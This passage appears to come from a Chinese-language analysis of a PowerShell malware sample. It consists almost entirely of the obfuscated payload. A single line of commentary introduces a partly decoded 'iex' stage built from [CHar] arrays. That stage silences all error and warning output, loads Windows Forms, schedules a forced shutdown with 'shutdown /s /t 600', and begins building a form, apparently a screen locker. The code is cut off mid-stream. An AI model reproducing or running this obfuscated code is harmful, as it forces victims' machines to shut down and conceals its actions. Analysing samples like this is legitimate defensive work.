o+$g$b$u$l+$g$o$x+$g$e$x+$g$b$b$b+$g$l$l+$g$l$e+$g$b$b$x+$g$b$u$d+$g$b$b$b+$g$b$b$u+$g$z$q+$g$x$b+$g$z$q+$g$e$i+$g$b$u$b+$g$b$b$l+$g$o$d+$g$e$l+$g$l$i+$g$b$u$x+$g$b$u$b+$g$l$l+$g$b$b$x+$g$z$q+$g$i$z+$g$b$q$b+$g$b$b$d+$g$b$b$x+$g$b$u$b+$g$b$u$l+$g$o$x+$g$x$i+$g$b$b$o+$g$l$e+$g$b$b$l+$g$b$u$d+$g$b$b$u+$g$b$u$z+$g$o$x+$g$i$u+$g$b$b$b+$g$b$u$d+$g$b$b$u+$g$b$b$x+$g$o$u+$g$d$q+$g$o$i+$g$o$o+$g$z$q+$g$d$q+$g$o$i+$g$o$b+$g$b$z+$g$b$u+$g$z$x+$g$e$u+$g$b$b$b+$g$b$b$o+$g$b$u$l+$g$o$x+$g$i$z+$g$b$u$d+$g$b$q$q+$g$b$u$b+$g$z$q+$g$x$b+$g$z$q+$g$e$i+$g$b$u$b+$g$b$b$l+$g$o$d+$g$e$l+$g$l$i+$g$b$u$x+$g$b$u$b+$g$l$l+$g$b$b$x+$g$z$q+$g$i$z+$g$b$q$b+$g$b$b$d+$g$b$b$x+$g$b$u$b+$g$b$u$l+$g$o$x+$g$x$i+$g$b$b$o+$g$l$e+$g$b$b$l+$g$b$u$d+$g$b$b$u+$g$b$u$z+$g$o$x+$g$i$z+$g$b$u$d+$g$b$q$q+$g$b$u$b+$g$o$u+$g$d$d+$g$d$u+$g$o$i+$g$o$o+$g$z$q+$g$d$q+$g$d$x+$g$o$i+$g$o$b+$g$b$z+$g$b$u+$g$z$x+$g$e$u+$g$b$b$b+$g$b$b$o+$g$b$u$l+$g$o$x+$g$e$e+$g$b$u$d+$g$b$b$u+$g$b$u$d+$g$b$u$l+$g$l$e+$g$b$u$i+$g$i$z+$g$b$u$d+$g$b$q$q+$g$b$u$b+$g$z$q+$g$x$b+$g$z$q+$g$e$i+$g$b$u$b+$g$b$b$l+$g$o$d+$g$e$l+$g$l$i+$g$b$u$x+$g$b$u$b+$g$l$l+$g$b$b$x+$g$z$q+$g$i$z+$g$b$q$b+$g$b$b$d+$g$b$b$x+$g$b$u$b+$g$b$u$l+$g$o$x+$g$x$i+$g$b$b$o+$g$l$e+$g$b$b$l+$g$b$u$d+$g$b$b$u+$g$b$u$z+$g$o$x+$g$i$z+$g$b$u$d+$g$b$q$q+$g$b$u$b+$g$o$u+$g$d$d+$g$d$u+$g$o$i+$g$o$o+$g$z$q+$g$d$q+$g$d$x+$g$o$i+$g$o$b+$g$b$z+$g$b$u+$g$z$x+$g$e$u+$g$b$b$b+$g$b$b$o+$g$b$u$l+$g$o$x+$g$e$e+$g$l$e+$g$b$q$u+$g$b$u$d+$g$b$u$l+$g$l$e+$g$b$u$i+$g$i$z+$g$b$u$d+$g$b$q$q+$g$b$u$b+$g$z$q+$g$x$b+$g$z$q+$g$e$i+$g$b$u$b+$g$b$b$l+$g$o$d+$g$e$l+$g$l$i+$g$b$u$x+$g$b$u$b+$g$l$l+$g$b$b$x+$g$z$q+$g$i$z+$g$b$q$b+$g$b$b$d+$g$b$b$x+$g$b$u$b+$g$b$u$l+$g$o$x+$g$x$i+$g$b$b$o+$g$l$e+$g$b$b$l+$g$b$u$d+$g$b$b$u+$g$b$u$z+$g$o$x+$g$i$z+$g$b$u$d+$g$b$q$q+$g$b$u$b+$g$o$u+$g$d$d+$g$d$u+$g$o$i+$g$o$o+$g$z$q+$g$d$q+$g$d$x+$g$o$i+$g$o$b+$g$b$z+$g$b$u+$g$z$x+$g$e$u+$g$b$b$b+$g$b$b$o+$g$b$u$l+$g$o$x+$g$e$u+$g$b$b$b+$g$b$b$o+$g$b$u$l+$g$x$x+$g$b$b$b+$g$b$b$o+$g$b$u$u+$g$b$u$b+$g$b$b$o+$g$i$z+$g$b$b$x+$g$b$q$b+$g$b$u$i+$g$b$u$b+$g$z$q+$g$x$b+$g$z$q+$g$z$o+$g$e$u+$g$b$u$d+$g$b$q$u+$g$b$u$b+$g$b$u$u+$g$x$i+$g$b$u$d+$g$l$e+$g$b$u$i+$g$b$b$b+$g$b$u$z+$g$z$o+$g$b$z+$g$b$u+$g$z$x+$g$e$u+$g$b$b$b+$g$b$b$o+$g$b$u$l+$g$o$x+$g$x$x+$g$l$e+$g$l$l+$g$b$u$e+$g$x$e+$g$b$b$b+$g$b$u$i+$g$b$b$b+$g$b$b$o+$g$z$q+$g$x$b+$g$z$q+$g$z$o+$g$z$d+$g$o$i+$g$o$i+$g$d$d+$g$d$d+$g$x$e+$g$x$e+$g$z$o+$g$b$z+$g$b$u+$g$z$x+$g$e$u+$g$b$b$b+$g$b$b$o+$g$b$u$l+$g$o$x+$g$e$e+$g$l$e+$g$b$q$u+$g$b$u$d+$g$b$u$l+$g$b$u$d+$g$b$q$q+$g$b$u$b+$g$x$x+$g$b$b$b+$g$b$q$u+$g$z$q+$g$x$b+$g$z$q+$g$z$x+$g$e$u+$g$l$e+$g$b$u$i+$g$b$b$d+$g$b$u$b+$g$b$z+$g$b$u+$g$z$x+$g$e$u+$g$b$b$b+$g$b$b$o+$g$b$u$l+$g$o$x+$g$i$o+$g$b$b$b+$g$b$b$q+$g$e$e+$g$b$b$b+$g$b$b$d+$g$b$b$x+$g$z$q+$g$x$b+$g$z$q+$g$z$x+$g$i$o+$g$b$b$o+$g$b$b$e+$g$b$u$b+$g$b$z+$g$b$u+$g$b$z+$g$b$u+$g$b$z+$g$b$u+$g$z$x+$g$b$u$q+$g$e$u+$g$o$l+$g$e$z+$g$x$d+$g$d$q+$g$d$e+$g$e$b+$g$z$q+$g$x$b+$g$z$q+$g$z$o+$g$e$x+$g$e$z+$g$e$x+$g$x$e+$g$i$o+$g$e$u+$g$b$q$z+$g$x$x+$g$x$l+$g$l$d+$g$i$x+$g$e$z+$g$e$b+$g$b$u$i+$g$e$x+$g$x$d+$g$e$i+$g$d$d+$g$l$d+$g$l$e+$g$d$o+$g$x$o+$g$b$u$i+$g$e$i+$g$z$x+$g$d$d+$g$l$d+$g$b$b$q+$g$b$u$o+$g$o$l+$g$d$z+$g$e$q+$g$e$z+$g$e$i+$g$e$b+$g$b$q$d+$g$z$o+$g$b$z+$g$b$u+$g$z$x+$g$b$u$q+$g$e$u+$g$o$l+$g$e$z+$g$x$d+$g$d$q+$g$d$e+$g$e$b+$g$z$q+$g$x$b+$g$z$q+$g$z$o+$g$e$i+$g$o$i+$g$b$b$q+$g$b$u$b+$g$z$o+$g$b$z+$g$b$u+$g$b$z+$g$b$u+$g$b$z+$g$b$u+$g$z$x+$g$e$x+$g$l$e+$g$l$i+$g$b$u$b+$g$b$u$i+$g$o$l+$g$z$q+$g$x$b+$g$z$q+$g$e$i+$g$b$u$b+$g$b$b$l+$g$o$d+$g$e$l+$g$l$i+$g$b$u$x+$g$b$u$b+$g$l$l+$g$b$b$x+$g$z$q+$g$i$z+$g$b$q$b+$g$b$b$d+$g$b$b$x+$g$b$u$b+$g$b$u$l+$g$o$x+$g$i$e+$g$b$u$d+$g$b$b$u+$g$b$u$u+$g$b$b$b+$g$b$b$l+$g$b$b$d+$g$o$x+$g$e$u+$g$b$b$b+$g$b$b$o+$g$b$u$l+$g$b$b$d+$g$o$x+$g$e$x+$g$l$e+$g$l$i+$g$b$u$b+$g$b$u$i+$g$b$z+$g$b$u+$g$z$x+$g$e$x+$g$l$e+$g$l$i+$g$b$u$b+$g$b$u$i+$g$o$l+$g$o$x+$g$i$o+$g$b$u$b+$g$b$q$u+$g$b$b$x+$g$z$q+$g$x$b+$g$z$q+$g$z$o+$g$d$i+$g$o$b+$g$z$o+$g$b$z+$g$b$u+$g$z$x+$g$e$x+$g$l$e+$g$l$i+$g$b$u$b+$g$b$u$i+$g$o$l+$g$o$x+$g$e$x+$g$b$b$b+$g$l$l+$g$l$e+$g$b$b$x+$g$b$u$d+$g$b$b$b+$g$b$b$u+$g$z$q+$g$x$b+$g$z$q+$g$e$i+$g$b$u$b+$g$b$b$l+$g$o$d+$g$e$l+$g$l$i+$g$b$u$x+$g$b$u$b+$g$l$l+$g$b$b$x+$g$z$q+$g$i$z+$g$b$q$b+$g$b$b$d+$g$b$b$x+$g$b$u$b+$g$b$u$l+$g$o$x+$g$x$i+$g$b$b$o+$g$l$e+$g$b$b$l+$g$b$u$d+$g$b$b$u+$g$b$u$z+$g$o$x+$g$i$u+$g$b$b$b+$g$b$u$d+$g$b$b$u+$g$b$b$x+$g$o$u+$g$d$o+$g$d$q+$g$o$o+$g$z$q+$g$d$x+$g$o$i+$g$o$b+$g$b$z+$g$b$u+$g$z$x+$g$e$x+$g$l$e+$g$l$i+$g$b$u$b+$g$b$u$i+$g$o$l+$g$o$x+$g$x$d+$g$b$b$e+$g$b$b$x+$g$b$b$b+$g$i$z+$g$b$u$d+$g$b$q$q+$g$b$u$b+$g$z$q+$g$x$b+$g$z$q+$g$z$x+$g$i$o+$g$b$b$o+$g$b$b$e+$g$b$u$b+$g$b$z+$g$b$u+$g$z$x+$g$e$x+$g$l$e+$g$l$i+$g$b$u$b+$g$b$u$i+$g$o$l+$g$o$x+$g$e$u+$g$b$b$b+$g$b$b$o+$g$b$u$b+$g$x$e+$g$b$b$b+$g$b$u$i+$g$b$b$b+$g$b$b$o+$g$z$q+$g$x$b+$g$z$q+$g$z$o+$g$i$e+$g$b$u$o+$g$b$u$d+$g$b$b$x+$g$b$u$b+$g$z$o+$g$b$z+$g$b$u+$g$z$x+$g$e$x+$g$l$e+$g$l$i+$g$b$u$b+$g$b$u$i+$g$o$l+$g$o$x+$g$e$u+$g$b$b$b+$g$b$b$u+$g$b$b$x+$g$z$q+$g$x$b+$g$z$q+$g$e$i+$g$b$u$b+$g$b$b$l+$g$o$d+$g$e$l+$g$l$i+$g$b$u$x+$g$b$u$b+$g$l$l+$g$b$b$x+$g$z$q+$g$i$z+$g$b$q$b+$g$b$b$d+$g$b$b$x+$g$b$u$b+$g$b$u$l+$g$o$x+$g$x$i+$g$b$b$o+$g$l$e+$g$b$b$l+$g$b$u$d+$g$b$b$u+$g$b$u$z+$g$o$x+$g$e$u+$g$b$b$b+$g$b$b$u+$g$b$b$x+$g$o$u+$g$z$o+$g$x$e+$g$b$b$b+$g$b$b$u+$g$b$b$d+$g$b$b$b+$g$b$u$i+$g$l$e+$g$b$b$d+$g$z$o+$g$o$o+$g$z$q+$g$d$o+$g$d$q+$g$o$b+$g$b$z+$g$b$u+$g$b$z+$g$b$u+$g$z$x+$g$e$x+$g$l$e+$g$l$i+$g$b$u$b+$g$b$u$i+$g$d$u+$g$z$q+$g$x$b+$g$z$q+$g$e$i+$g$b$u$b+$g$b$b$l+$g$o$d+$g$e$l+$g$l$i+$g$b$u$x+$g$b$u$b+$g$l$l+$g$b$b$x+$g$z$q+$g$i$z+$g$b$q$b+$g$b$b$d+$g$b$b$x+$g$b$u$b+$g$b$u$l+$g$o$x+$g$i$e+$g$b$u$d+$g$b$b$u+$g$b$u$u+$g$b$b$b+$g$b$b$l+$g$b$b$d+$g$o$x+$g$e$u+$g$b$b$b+$g$b$b$o+$g$b$u$l+$g$b$b$d+$g$o$x+$g$e$x+$g$l$e+$g$l$i+$g$b$u$b+$g$b$u$i+$g$b$z+$g$b$u+$g$z$x+$g$e$x+$g$l$e+$g$l$i+$g$b$u$b+$g$b$u$i+$g$d$u+$g$o$x+$g$i$o+$g$b$u$b+$g$b$q$u+$g$b$b$x+$g$z$q+$g$x$b+$g$z$q+$g$z$o+$g$z$x$i$q$d+$g$z$e$z$q$o+$g$q$e$i$u$l+$g$q$x$z$e$e+$g$z$q+$g$b$u$q+$g$b$u$i+$g$l$e+$g$b$u$z+$g$x$d$z$u$e+$g$z$x$i$q$d+$g$q$u$u$b$u+$g$z$b$z$i$z+$g$q$b$o$e$d+$g$q$x$b$d$l+$g$q$o$d$l$u+$g$q$u$u$o$u+$g$q$u$l$i$x+$g$q$l$x$b$x+$g$z$u$z$o$u+$g$q$b$x$u$q+$g$x$d$q$l$q+$g$b$u$q+$g$b$u$i+$g$l$e+$g$b$u$z+$g$z$q+$g$q$z$x$u$b+$g$q$q$z$b$q+$g$z$e$u$q$e+$g$z$e$z$q$o+$g$z$o+$g$b$z+$g$b$u+$g$z$x+$g$e$x+$g$l$e+$g$l$i+$g$b$u$b+$g$b$u$i+$g$d$u+$g$o$x+$g$e$x+$g$b$b$b+$g$l$l+$g$l$e+$g$b$b$x+$g$b$u$d+$g$b$b$b+$g$b$b$u+$g$z$q+$g$x$b+$g$z$q+$g$e$i+$g$b$u$b+$g$b$b$l+$g$o$d+$g$e$l+$g$l$i+$g$b$u$x+$g$b$u$b+$g$l$l+$g$b$b$x+$g$z$q+$g$i$z+$g$b$q$b+$g$b$b$d+$g$b$b$x+$g$b$u$b+$g$b$u$l+$g$o$x+$g$x$i+$g$b$b$o+$g$l$e+$g$b$b$l+$g$b$u$d+$g$b$b$u+$g$b$u$z+$g$o$x+$g$i$u+$g$b$b$b+$g$b$u$d+$g$b$b$u+$g$b$b$x+$g$o$u+$g$d$o+$g$d$q+$g$o$o+$g$z$q+$g$d$u+$g$d$q+$g$o$i+$g$o$b+$g$b$z+$g$b$u+$g$z$x+$g$e$x+$g$l$e+$g$l$i+$g$b$u$b+$g$b$u$i+$g$d$u+$g$o$x+$g$x$d+$g$b$b$e+$g$b$b$x+$g$b$b$b+$g$i$z+$g$b$u$d+$g$b$q$q+$g$b$u$b+$g$z$q+$g$x$b+$g$z$q+$g$z$x+$g$i$o+$g$b$b$o+$g$b$b$e+$g$b$u$b+$g$b$z+$g$b$u+$g$z$x+$g$e$x+$g$l$e+$g$l$i+$g$b$u$b+$g$b$u$i+$g$d$u+$g$o$x+$g$e$u+$g$b$b$b+$g$b$b$o+$g$b$u$b+$g$x$e+$g$b$b$b+$g$b$u$i+$g$b$b$b+$g$b$b$o+$g$z$q+$g$x$b+$g$z$q+$g$z$o+$g$i$e+$g$b$u$o+$g$b$u$d+$g$b$b$x+$g$b$u$b+$g$z$o+$g$b$z+$g$b$u+$g$z$x+$g$e$x+$g$l$e+$g$l$i+$g$b$u$b+$g$b$u$i+$g$d$u+$g$o$x+$g$e$u+$g$b$b$b+$g$b$b$u+$g$b$b$x+$g$z$q+$g$x$b+$g$z$q+$g$e$i+$g$b$u$b+$g$b$b$l+$g$o$d+$g$e$l+$g$l$i+$g$b$u$x+$g$b$u$b+$g$l$l+$g$b$b$x+$g$z$q+$g$i$z+$g$b$q$b+$g$b$b$d+$g$b$b$x+$g$b$u$b+$g$b$u$l+$g$o$x+$g$x$i+$g$b$b$o+$g$l$e+$g$b$b$l+$g$b$u$d+$g$b$b$u+$g$b$u$z+$g$o$x+$g$e$u+$g$b$b$b+$g$b$b$u+$g$b$b$x+$g$o$u+$g$z$o+$g$q$o$o$l$o+$g$z$x$e$b$l+$g$z$i$d$l$e+$g$o$u$x$d$e+$g$z$o+$g$o$o+$g$z$q+$g$o$l+$g$d$o+$g$o$b+$g$b$z+$g$b$u+$g$b$z+$g$b$u+$g$z$x+$g$e$x+$g$l$e+$g$l$i+$g$b$u$b+$g$b$u$i+$g$d$b+$g$z$q+$g$x$b+$g$z$q+$g$e$i+$g$b$u$b+$g$b$b$l+$g$o$d+$g$e$l+$g$l$i+$g$b$u$x+$g$b$u$b+$g$l$l+$g$b$b$x+$g$z$q+$g$i$z+$g$b$q$b+$g$b$b$d+$g$b$b$x+$g$b$u$b+$g$b$u$l+$g$o$x+$g$i$e+$g$b$u$d+$g$b$b$u+$g$b$u$u+$g$b$b$b+$g$b$b$l+$g$b$b$d+$g$o$x+$g$e$u+$g$b$b$b+$g$b$b$o+$g$b$u$l+$g$b$b$d+$g$o$x+$g$e$x+$g$l$e+$g$l$i+$g$b$u$b+$g$b$u$i+$g$b$z+$g$b$u+$g$z$x+$g$e$x+$g$l$e+$g$l$i+$g$b$u$b+$g$b$u$i+$g$d$b+$g$o$x+$g$i$o+$g$b$u$b+$g$b$q$u+$g$b$b$x+$g$z$q+$g$x$b+$g$z$q+$g$z$o+$g$q$u$z$q$u+$g$z$u$z$o$u+$g$z$u$u$u$d+$g$z$z$u$o$b+$g$q$z$d$d$i+$g$q$q$z$b$q+$g$z$q+$g$o$l+$g$o$i+$g$z$q+$g$q$u$l$l$i+$g$z$i$u$o$e+$g$q$b$d$b$i+$g$q$u$i$d$b+$g$q$x$o$q$x+$g$x$d$q$l$q+$g$z$d$i$z$b+$g$q$u$o$o$d+$g$q$z$z$i$o+$g$q$u$z$q$u+$g$z$u$z$o$u+$g$q$o$u$z$e+$g$q$u$z$b$x+$g$z$o+$g$b$z+$g$b$u+$g$z$x+$g$e$x+$g$l$e+$g$l$i+$g$b$u$b+$g$b$u$i+$g$d$b+$g$o$x+$g$e$x+$g$b$b$b+$g$l$l+$g$l$e+$g$b$b$x+$g$b$u$d+$g$b$b$b+$g$b$b$u+$g$z$q+$g$x$b+$g$z$q+$g$e$i+$g$b$u$b+$g$b$b$l+$g$o$d+$g$e$l+$g$l$i+$g$b$u$x+$g$b$u$b+$g$l$l+$g$b$b$x+$g$z$q+$g$i$z+$g$b$q$b+$g$b$b$d+$g$b$b$x+$g$b$u$b+$g$b$u$l+$g$o$x+$g$x$i+$g$b$b$o+$g$l$e+$g$b$b$l+$g$b$u$d+$g$b$b$u+$g$b$u$z+$g$o$x+$g$i$u+$g$b$b$b+$g$b$u$d+$g$b$b$u+$g$b$b$x+$g$o$u+$g$d$o+$g$d$q+$g$o$o+$g$z$q+$g$d$b+$g$o$i+$g$o$i+$g$o$b+$g$b$z+$g$b$u+$g$z$x+$g$e$x+$g$l$e+$g$l$i+$g$b$u$b+$g$b$u$i+$g$d$b+$g$o$x+$g$x$d+$g$b$b$e+$g$b$b$x+$g$b$b$b+$g$i$z+$g$b$u$d+$g$b$q$q+$g$b$u$b+$g$z$q+$g$x$b+$g$z$q+$g$z$x+$g$i$o+$g$b$b$o+$g$b$b$e+$g$b$u$b+$g$b$z+$g$b$u+$g$z$x+$g$e$x+$g$l$e+$g$l$i+$g$b$u$b+$g$b$u$i+$g$d$b+$g$o$x+$g$e$u+$g$b$b$b+$g$b$b$o+$g$b$u$b+$g$x$e+$g$b$b$b+$g$b$u$i+$g$b$b$b+$g$b$b$o+$g$z$q+$g$x$b+$g$z$q+$g$z$o+$g$i$e+$g$b$u$o+$g$b$u$d+$g$b$b$x+$g$b$u$b+$g$z$o+$g$b$z+$g$b$u+$g$z$x+$g$e$x+$g$l$e+$g$l$i+$g$b$u$b+$g$b$u$i+$g$d$b+$g$o$x+$g$e$u+$g$b$b$b+$g$b$b$u+$g$b$b$x+$g$z$q+$g$x$b+$g$z$q+$g$e$i+$g$b$u$b+$g$b$b$l+$g$o$d+$g$e$l+$g$l$i+$g$b$u$x+$g$b$u$b+$g$l$l+$g$b$b$x+$g$z$q+$g$i$z+$g$b$q$b+$g$b$b$d+$g$b$b$x+$g$b$u$b+$g$b$u$l+$g$o$x+$g$x$i+$g$b$b$o+$g$l$e+$g$b$b$l+$g$b$u$d+$g$b$b$u+$g$b$u$z+$g$o$x+$g$e$u+$g$b$b$b+$g$b$b$u+$g$b$b$x+$g$o$u+$g$z$o+$g$q$o$o$l$o+$g$z$x$e$b$l+$g$z$i$d$l$e+$g$o$u$x$d$e+$g$z$o+$g$o$o+$g$z$q+$g$o$l+$g$d$o+$g$o$b+$g$b$z+$g$b$u+$g$b$z+$g$b$u+$g$z$x+$g$e$u+$g$b$b$b+$g$b$b$o+$g$b$u$l+$g$o$x+$g$x$e+$g$b$b$b+$g$b$b$u+$g$b$b$x+$g$b$b$o+$g$b$b$b+$g$b$u$i+$g$b$b$d+$g$o$x+$g$x$d+$g$b$u$u+$g$b$u$u+$g$i$q+$g$l$e+$g$b$b$u+$g$b$u$z+$g$b$u$b+$g$o$u+$g$x$o+$g$o$u+$g$z$x+$g$e$x+$g$l$e+$g$l$i+$g$b$u$b+$g$b$u$i+$g$o$l+$g$o$o+$g$z$q+$g$z$x+$g$e$x+$g$l$e+$g$l$i+$g$b$u$b+$g$b$u$i+$g$d$u+$g$o$o+$g$z$q+$g$z$x+$g$e$x+$g$l$e+$g$l$i+$g$b$u$b+$g$b$u$i+$g$d$b+$g$o$b+$g$o$b+$g$b$z+$g$b$u+$g$b$z+$g$b$u+$g$z$x+$g$e$u+$g$b$b$b+$g$b$b$o+$g$b$u$l+$g$o$x+$g$x$d+$g$b$u$u+$g$b$u$u+$g$l$d+$g$i$z+$g$b$u$o+$g$b$b$b+$g$b$b$l+$g$b$b$u+$g$o$u+$g$b$q$z+$g$z$x+$g$e$u+$g$b$b$b+$g$b$b$o+$g$b$u$l+$g$o$x+$g$x$d+$g$l$l+$g$b$b$x+$g$b$u$d+$g$b$b$i+$g$l$e+$g$b$b$x+$g$b$u$b+$g$o$u+$g$o$b+$g$b$q$d+$g$o$b+$g$b$z+$g$b$u+$g$z$x+$g$e$u+$g$b$b$b+$g$b$b$o+$g$b$u$l+$g$o$x+$g$x$d+$g$b$u$u+$g$b$u$u+$g$l$d+$g$e$u+$g$b$b$b+$g$b$b$o+$g$b$u$l+$g$x$e+$g$b$u$i+$g$b$b$b+$g$b$b$d+$g$b$u$d+$g$b$b$u+$g$b$u$z+$g$o$u+$g$b$q$z+$g$b$z+$g$b$u+$g$z$q+$g$z$q+$g$z$q+$g$z$q+$g$z$x+$g$l$d+$g$o$x+$g$x$e+$g$l$e+$g$b$b$u+$g$l$l+$g$b$u$b+$g$b$u$i+$g$z$q+$g$x$b+$g$z$q+$g$z$x+$g$i$o+$g$b$b$o+$g$b$b$e+$g$b$u$b+$g$b$z+$g$b$u+$g$z$q+$g$z$q+$g$z$q+$g$z$q+$g$l$b+$g$i$z+$g$b$q$b+$g$b$b$d+$g$b$b$x+$g$b$u$b+$g$b$u$l+$g$o$x+$g$i$e+$g$b$u$d+$g$b$b$u+$g$b$u$u+$g$b$b$b+$g$b$b$l+$g$b$b$d+$g$o$x+$g$e$u+$g$b$b$b+$g$b$b$o+$g$b$u$l+$g$b$b$d+$g$o$x+$g$e$e+$g$b$u$b+$g$b$b$d+$g$b$b$d+$g$l$e+$g$b$u$z+$g$b$u$b+$g$x$x+$g$b$b$b+$g$b$q$u+$g$l$z+$g$d$i+$g$d$i+$g$i$z+$g$b$u$o+$g$b$b$b+$g$b$b$l+$g$o$u+$g$z$o+$g$b$l$l$i$b+$g$q$u$i$u$b+$g$z$d$e$x$i+$g$q$u$i$d$b+$g$z$i$z$i$b+$g$x$d$q$i$b+$g$z$o+$g$o$o+$g$z$q+$g$z$o+$g$q$d$d$d$q+$g$z$b$u$z$o+$g$z$o+$g$o$o+$g$z$q+$g$l$b+$g$i$z+$g$b$q$b+$g$b$b$d+$g$b$b$x+$g$b$u$b+$g$b$u$l+$g$o$x+$g$i$e+$g$b$u$d+$g$b$b$u+$g$b$u$u+$g$b$b$b+$g$b$b$l+$g$b$b$d+$g$o$x+$g$e$u+$g$b$b$b+$g$b$b$o+$g$b$u$l+$g$b$b$d+$g$o$x+$g$e$e+$g$b$u$b+$g$b$b$d+$g$b$b$d+$g$l$e+$g$b$u$z+$g$b$u$b+$g$x$x+$g$b$b$b+$g$b$q$u+$g$x$x+$g$b$b$e+$g$b$b$x+$g$b$b$x+$g$b$b$b+$g$b$b$u+$g$b$b$d+$g$l$z+$g$d$i+$g$d$i+$g$e$l+$g$e$d+$g$o$o+$g$z$q+$g$l$b+$g$i$z+$g$b$q$b+$g$b$b$d+$g$b$b$x+$g$b$u$b+$g$b$u$l+$g$o$x+$g$i$e+$g$b$u$d+$g$b$b$u+$g$b$u$u+$g$b$b$b+$g$b$b$l+$g$b$b$d+$g$o$x+$g$e$u+$g$b$b$b+$g$b$b$o+$g$b$u$l+$g$b$b$d+$g$o$x+$g$e$e+$g$b$u$b+$g$b$b$d+$g$b$b$d+$g$l$e+$g$b$u$z+$g$b$u$b+$g$x$x+$g$b$b$b+$g$b$q$u+$g$e$z+$g$l$l+$g$b$b$b+$g$b$b$u+$g$l$z+$g$d$i+$g$d$i+$g$e$z+$g$b$b$u+$g$b$u$q+$g$b$b$b+$g$b$b$o+$g$b$u$l+$g$l$e+$g$b$b$x+$g$b$u$d+$g$b$b$b+$g$b$b$u+$g$o$b+$g$b$z+$g$b$u+$g$b$q$d+$g$o$b+$g$b$z+$g$b$u+$g$b$z+$g$b$u+$g$z$x+$g$e$u+$g$b$b$b+$g$b$b$o+$g$b$u$l+$g$o$x+$g$i$z+$g$b$u$o+$g$b$b$b+$g$b$b$l+$g$x$i+$g$b$u$d+$g$l$e+$g$b$u$i+$g$b$b$b+$g$b$u$z+$g$o$u+$g$o$b+$g$z$q+$g$b$q$o+$g$z$q+$g$e$l+$g$b$b$e+$g$b$b$x+$g$o$d+$g$e$i+$g$b$b$e+$g$b$u$i+$g$b$u$i)  "  |  .$r 
```
截取管道的前部，执行得到：
```
 iex  ([CHar]36+[CHar]68+[CHar]101+[CHar]98+[CHar]117+[CHar]103+[CHar]80+[CHar]114+[CHar]101+[CHar]102+[CHar]101+[CHar]114+[CHar]101+[CHar]110+[CHar]99+[CHar]101+[CHar]32+[CHar]61+[CHar]32+[CHar]36+[CHar]69+[CHar]114+[CHar]114+[CHar]111+[CHar]114+[CHar]65+[CHar]99+[CHar]116+[CHar]105+[CHar]111+[CHar]110+[CHar]80+[CHar]114+[CHar]101+[CHar]102+[CHar]101+[CHar]114+[CHar]101+[CHar]110+[CHar]99+[CHar]101+[CHar]32+[CHar]61+[CHar]32+[CHar]36+[CHar]86+[CHar]101+[CHar]114+[CHar]98+[CHar]111+[CHar]115+[CHar]101+[CHar]80+[CHar]114+[CHar]101+[CHar]102+[CHar]101+[CHar]114+[CHar]101+[CHar]110+[CHar]99+[CHar]101+[CHar]32+[CHar]61+[CHar]32+[CHar]36+[CHar]87+[CHar]97+[CHar]114+[CHar]110+[CHar]105+[CHar]110+[CHar]103+[CHar]80+[CHar]114+[CHar]101+[CHar]102+[CHar]101+[CHar]114+[CHar]101+[CHar]110+[CHar]99+[CHar]101+[CHar]32+[CHar]61+[CHar]32+[CHar]34+[CHar]83+[CHar]105+[CHar]108+[CHar]101+[CHar]110+[CHar]116+[CHar]108+[CHar]121+[CHar]67+[CHar]111+[CHar]110+[CHar]116+[CHar]105+[CHar]110+[CHar]117+[CHar]101+[CHar]34+[CHar]13+[CHar]10+[CHar]13+[CHar]10+[CHar]91+[CHar]118+[CHar]111+[CHar]105+[CHar]100+[CHar]93+[CHar]32+[CHar]91+[CHar]83+[CHar]121+[CHar]115+[CHar]116+[CHar]101+[CHar]109+[CHar]46+[CHar]82+[CHar]101+[CHar]102+[CHar]108+[CHar]101+[CHar]99+[CHar]116+[CHar]105+[CHar]111+[CHar]110+[CHar]46+[CHar]65+[CHar]115+[CHar]115+[CHar]101+[CHar]109+[CHar]98+[CHar]108+[CHar]121+[CHar]93+[CHar]58+[CHar]58+[CHar]76+[CHar]111+[CHar]97+[CHar]100+[CHar]87+[CHar]105+[CHar]116+[CHar]104+[CHar]80+[CHar]97+[CHar]114+[CHar]116+[CHar]105+[CHar]97+[CHar]108+[CHar]78+[CHar]97+[CHar]109+[CHar]101+[CHar]40+[CHar]34+[CHar]83+[CHar]121+[CHar]115+[CHar]116+[CHar]101+[CHar]109+[CHar]46+[CHar]87+[CHar]105+[CHar]110+[CHar]100+[CHar]111+[CHar]119+[CHar]115+[CHar]46+[CHar]70+[CHar]111+[CHar]114+[CHar]109+[CHar]115+[CHar]34+[CHar]41+[CHar]13+[CHar]10+[CHar]91+[CHar]118+[CHar]111+[CHar]105+[CHar]100+[CHar]93+[CHar]32+[CHar]91+[CHar]83+[CHar]121+[CHar]115+[CHar]116+[CHar]101+[CHar]109+[CHar]46+[CHar]82+[CHar]101+[CHar]102+[CHar]108+[CHar]101+[CHar]99+[CHar]116+[CHar]105+[CHar]111+[CHar]110+[CHar]46+[CHar]65+[CHar]115+[CHar]115+[CHar]101+[CHar]109+[CHar]98+[CHar]108+[CHar]121+[CHar]93+[CHar]58+[CHar]58+[CHar]76+[CHar]111+[CHar]97+[CHar]100+[CHar]87+[CHar]105+[CHar]116+[CHar]104+[CHar]80+[CHar]97+[CHar]114+[CHar]116+[CHar]105+[CHar]97+[CHar]108+[CHar]78+[CHar]97+[CHar]109+[CHar]101+[CHar]40+[CHar]34+[CHar]83+[CHar]121+[CHar]115+[CHar]116+[CHar]101+[CHar]109+[CHar]46+[CHar]68+[CHar]114+[CHar]97+[CHar]119+[CHar]105+[CHar]110+[CHar]103+[CHar]34+[CHar]41+[CHar]13+[CHar]10+[CHar]13+[CHar]10+[CHar]115+[CHar]104+[CHar]117+[CHar]116+[CHar]100+[CHar]111+[CHar]119+[CHar]110+[CHar]32+[CHar]47+[CHar]115+[CHar]32+[CHar]47+[CHar]116+[CHar]32+[CHar]54+[CHar]48+[CHar]48+[CHar]32+[CHar]62+[CHar]36+[CHar]78+[CHar]117+[CHar]108+[CHar]108+[CHar]32+[CHar]50+[CHar]62+[CHar]38+[CHar]49+[CHar]13+[CHar]10+[CHar]13+[CHar]10+[CHar]36+[CHar]70+[CHar]111+[CHar]114+[CHar]109+[CHar]32+[CHar]61+[CHar]32+[CHar]78+[CHar]101+[CHar]119+[CHar]45+[CHar]79+[CHar]98+[CHar]106+[CHar]101+[CHar]99+[CHar]116+[CHar]32+[CHar]83+[CHar]121+[CHar]115+[CHar]116+[CHar]101+[CHar]109+[CHar]46+[CHar]87+[CHar]105+[CHar]110+[CHar]100+[CHar]111+[CHar]119+[CHar]115+[CHar]46+[CHar]70+[CHar]111+[CHar]114+[CHar]109+[CHar]115+